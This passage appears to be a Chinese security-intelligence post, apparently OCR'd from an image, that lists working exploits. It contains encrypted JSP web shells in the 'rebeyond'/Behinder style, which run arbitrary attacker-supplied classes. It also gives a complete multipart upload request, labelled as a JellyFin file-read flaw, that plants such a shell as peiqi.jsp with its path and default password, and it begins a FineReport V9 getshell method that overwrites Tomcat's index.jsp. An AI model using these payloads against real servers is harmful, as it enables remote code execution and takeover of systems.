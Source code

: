 ```
super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null) {String 
k=(\"\"+UUID.randomUUID()).replace(\"- 
\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher 
c=Cipher.getInstance(\"AES\");c.init(2,new 
SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new 
U(this.getClass().getClassLoader()).g(c.doFinal(new 
sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta 
nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}
```

4 月 9 号安全情报
-----------

### 0x03 JellyFin 任意文件读取

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close
------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; 
Content-Type: application/octet-stream
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

地址: /page/exportImport/fileTransfer/peiqi.jsp

默认密码 rebeyond
```

### 0x04 帆软 V9getshell【历史漏洞】

FineReport V9

注意: 这个漏洞是任意文件覆盖，上传 JSP 马，需要找已存在的 jsp 文件进行覆盖 Tomcat

启动帆软后默认存在的 JSP 文件:

比如：/tomcat-7.0.96/webapps/ROOT/index.jsp

覆盖 Tomcat 自带 ROOT 目录下的 index.jsp:

```
POST /Upload/upload_file.php?l=1 HTTP/1.1 
Host: x.x.x.x 